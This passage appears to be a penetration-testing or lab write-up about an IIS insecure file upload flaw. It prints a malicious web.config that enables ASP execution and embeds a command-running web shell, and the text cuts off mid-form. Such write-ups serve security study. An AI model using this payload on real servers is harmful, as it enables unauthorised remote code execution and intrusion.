 Images were accepted:

![Pasted image 20210524160710.png](../../zzz_res/attachments/Pasted_image_20210524160710.png)

![Pasted image 20210524160741.png](../../zzz_res/attachments/Pasted_image_20210524160741.png)

**.config** file were accepted:

![Pasted image 20210524164326.png](../../zzz_res/attachments/Pasted_image_20210524164326.png)

# Exploitation

## Insecure File Upload (.config Remote File Execution)

- [upload-a-web-config-file-for-fun-profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
- [uploading-web-config-for-fun-and-profit-2](https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/)
- [KSEC ARK - Pentesting and redteam knowledge base | IIS - Web.config File Exploit](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/)

It was possible to execute arbitrary code uploading a custom `web.config` file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<% Response.write("-"&"->")%>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)

    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
```